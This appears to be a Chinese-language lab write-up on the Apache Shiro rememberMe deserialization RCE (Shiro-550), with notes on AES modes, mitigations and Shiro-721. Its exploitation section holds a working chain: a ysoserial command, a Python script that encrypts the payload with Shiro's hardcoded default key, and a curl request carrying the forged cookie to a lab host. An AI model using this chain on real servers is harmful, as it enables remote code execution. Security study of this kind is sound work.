







## 简介
Apache Shiro是一个强大易用的Java安全框架，提供了认证、授权、加密和会话管理等功能。Shiro框架直观、易用，同时也能提供健壮的安全性。

## 漏洞原理
Apache Shiro框架提供了记住密码的功能（RememberMe），用户登录成功后会生成经过加密并编码的cookie。在服务端对rememberMe的cookie值，先base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞。  
那么，Payload产生的过程：  
- **命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie值**  
在整个漏洞利用过程中，比较重要的是AES加密的密钥，如果没有修改默认的密钥那么就很容易就知道密钥了,Payload就可以构造了。

**影响版本**：Apache Shiro < 1.2.4

**特征**：返回包中包含rememberMe=deleteMe字段。

**AES加密方式**
CBC：需要初始IV，相同明文得到不同的密文。shiro采用的正是这种加密模式
```
明文:  [块1]                   [块2]                    [块3]    ...
        ↓                        ↓                        ↓
      [IV] ──→ ⊕（异或）      [密文1] ──→ ⊕（异或）   [密文2] ──→ ⊕（异或）
                 ↓                        ↓                        ↓
              [密钥]                   [密钥]                   [密钥]
                 ↓                        ↓                        ↓
密文:          [块1]   ────────→     [块2]   ────────→     [块3]    ...
              (IV 参与)              (密文1 参与)           (密文2 参与)
```
1. **IV（初始化向量）**：第一个明文块先与随机 IV 异或，再加密。
2. **链式反应**：每个明文块加密前，都要先与**前一个密文块**异或。
3. **雪崩效应**：即使明文相同，只要 IV 或前一个密文不同，最终密文就完全不同。

EBC：不需要初始IV，相同明文会得到相同密文。
```
明文:  [块1]    [块2]    [块3]    [块4]
        ↓        ↓        ↓        ↓
      [密钥]   [密钥]   [密钥]   [密钥]    ← 每个块独立加密
        ↓        ↓        ↓        ↓
密文:  [块1]    [块2]    [块3]    [块4]    ← 相同明文 → 相同密文
```
## 漏洞利用
登陆请求：
	
第一次登陆并勾选rememberme后的数据包都自带rememberMe字段
	

**rememberMe的生成过程**

java对象=》序列化=》AES加密=》base64加密=》写入Cookie中
这里AES是硬编码进源码中的导致攻击者获取到AES密钥后很容易就构造恶意payload

**运行shiro容器中/tmp目录为被攻击时**


**1：生成恶意Java对象的序列化**
```java
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 "touch /tmp/hacked" > payload.ser
```
用kali生成恶意java对象的序列化payload，这个payload运行的命令是`touch /tmp/hacked`在/tmp目录下创建一个hacked文件


**2：读取序列化数据AES加密(CBC模式+硬编码密钥)**
```python
import base64, os
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

# 1. 读取序列化数据
with open("payload.ser", "rb") as f:
    data = f.read()
print(f"[*] 读取 {len(data)} 字节")

# 2. AES 加密 (CBC)
KEY = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
iv = os.urandom(16)
encrypted = AES.new(KEY, AES.MODE_CBC, iv).encrypt(pad(data, AES.block_size))

# 3. 不进行 Base64 编码，直接输出二进制数据
iv_plus_cipher = iv + encrypted
#IV + 密文	把 IV 拼在密文前面	读取前 16 字节作为 IV，剩余作为密文	✅ 解密端能提取 IV

# 输出方式选择：
# 方式A：直接写入二进制文件（原始密文）
with open("rememberMe.bin", "wb") as f:
    f.write(iv_plus_cipher)
print("[✓] 已保存到 rememberMe.bin（二进制格式）")

# 方式B：以十六进制形式显示
print(f"\n[*] 十六进制形式:\n{iv_plus_cipher.hex()}")

# 方式C：直接打印原始字节（会乱码，不建议）
# print(iv_plus_cipher)
```

**3：base64加密二进制AES加密后的数据**
```bash
base64 -w 0 rememberMe.bin > rememberMe.txt ; cat rememberMe.txt
```
**4：替换cookie**
```bash
curl -v -H "Cookie: rememberMe=$(cat rememberMe.txt)" http://192.168.230.143:8080/
```

攻击成功！容器中生成了hacked文件


攻击时出现 `rememberMe=deleteMe`，是因为**你的恶意数据在反序列化过程中触发了异常，Shiro 为了安全，强制把这条有问题的 Cookie 删除了**。但值得注意的是，**命令执行发生在“删除”这个动作之前**。

## 防护

**升级版本 + 换掉默认密钥 + 限制反序列化类**。

## 补充shiro721

**Shiro-721就是：即使你换了默认密钥，只要用的是AES-CBC加密模式，攻击者拿到一个合法Cookie后，就能像“猜密码”一样，通过不断给服务器发篡改过的密文并观察报错，逐字节还原出加密内容，最终伪造出能执行命令的恶意Cookie。**
